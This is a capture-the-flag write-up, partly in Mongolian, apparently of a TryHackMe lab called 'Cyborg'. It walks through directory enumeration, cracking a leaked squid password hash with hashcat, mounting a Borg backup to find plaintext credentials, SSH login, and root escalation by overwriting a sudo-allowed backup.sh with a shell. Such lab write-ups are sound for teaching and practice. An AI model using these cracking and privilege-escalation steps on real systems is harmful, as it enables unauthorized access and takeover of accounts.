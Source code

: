 # Cyborg
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/1f727c8a-5b12-432f-b31d-af61c6a8ee70)
`` Cyborg``

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/b4b29b20-bc15-4253-a591-7c61b1456b0b)
``$ sudo nmap -sC -sV 10.10.66.129 ``
```

─$ gobuster dir -u http://10.10.66.129/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.66.129/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403) [Size: 277]
/.hta (Status: 403) [Size: 277]
/.htpasswd (Status: 403) [Size: 277]
/admin (Status: 301) [Size: 312] [--> http://10.10.66.129/admin/]
/etc (Status: 301) [Size: 310] [--> http://10.10.66.129/etc/]
/index.html (Status: 200) [Size: 11321]
/server-status (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/f72350f9-7f14-4e7d-91f5-c62167570295)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2de61cc4-03d0-4d92-937d-bddc09c8ab01)
``
/admin аар хандаж орсон
``
```
############################################
############################################
[Yesterday at 4.32pm from Josh]
Are we all going to watch the football game at the weekend??
############################################
############################################
[Yesterday at 4.33pm from Adam]
Yeah Yeah mate absolutely hope they win!
############################################
############################################
[Yesterday at 4.35pm from Josh]
See you there then mate!
############################################
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
############################################

```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/26d6bb61-ac29-4ded-869e-3f2507e334d5)
``
http://10.10.97.132/etc/ хандаж орсон
``
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/a7a480ca-2c48-4bea-9af5-b884d638c3a9)

``
http://10.10.97.132/etc/squid/passwd хандан орход hash утга байсан
``

```
┌──(melle㉿kali)-[~/Downloads]
└─$ cat crack.hash
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn

┌──(melle㉿kali)-[~/Downloads]
└─$ sudo nano crack.hash
[sudo] password for melle:

┌──(melle㉿kali)-[~/Downloads]
└─$ hashcat -m 1600 crack.hash /usr/share/wordlists/rockyou.txt --show

┌──(melle㉿kali)-[~/Downloads]
└─$ hashcat -m 1600 crack.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

```

```
└─$ hashcat -m 1600 crack.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-9300H CPU @ 2.40GHz, 1815/3694 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Wed Apr 17 09:22:35 2024 (3 secs)
Time.Estimated...: Wed Apr 17 09:22:38 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 11531 H/s (7.98ms) @ Accel:64 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39168/14344384 (0.27%)
Rejected.........: 0/39168 (0.00%)
Restore.Point....: 38912/14344384 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: toutou -> luvhim
Hardware.Mon.#1..: Util: 91%

Started: Wed Apr 17 09:21:58 2024
Stopped: Wed Apr 17 09:22:39 2024

```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/3adb6d7f-6d73-4859-ab87-a0d7df0a3972)


archive --> Download
татаад үзтэл zip файл байсан бөгөөд үүнийг олж авсан хэш утгаар онгойлгосон
```
┌──(melle㉿kali)-[~/Downloads]
└─$ tar -xvf archive.tar
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```

```
┌──(melle㉿kali)-[~/Downloads]
└─$ cat home/field/dev/final_archive/README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/

```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/8e8739f6-2cfe-40f7-889c-1602ea0f41cf)


```
┌──(melle㉿kali)-[~/Downloads]
└─$ borg list home/field/dev/final_archive/
Enter passphrase for key /home/melle/Downloads/home/field/dev/final_archive:
Enter passphrase for key /home/melle/Downloads/home/field/dev/final_archive:
Enter passphrase for key /home/melle/Downloads/home/field/dev/final_archive:
exceeded the maximum password retries
```


```
┌──(melle㉿kali)-[~/Downloads]
└─$ borg mount home/field/dev/final_archive/ unpacked
```
```
┌──(melle㉿kali)-[~/Downloads]
└─$ cat note.txt
wow i'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/683726e8-3e51-4a92-831d-ec2cea3cd797)
`` └─$ ssh alex@cyborg.thm ``

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/e4568c90-dfb9-4cdb-ac97-a8c30b5c1e05)

```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ chmod 777 /etc/mp3backups/backup.sh
alex@ubuntu:~$ echo "/bin/bash" > /etc/mp3backups/backup.sh
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh
```

```
root@ubuntu:/root# ls -la
total 36
drwx------ 4 root root 4096 Dec 30 2020 .
drwxr-xr-x 24 root root 4096 Dec 30 2020 ..
-rw------- 1 root root 2875 Dec 31 2020 .bash_history
-rw-r--r-- 1 root root 3106 Oct 22 2015 .bashrc
drwx------ 2 root root 4096 Aug 6 2020 .cache
drwxr-xr-x 2 root root 4096 Dec 30 2020 .nano
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-r-xr--r-- 1 root root 43 Dec 30 2020 root.txt
-rw-r--r-- 1 root root 66 Dec 30 2020 .selected_editor
root@ubuntu:/root# cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```











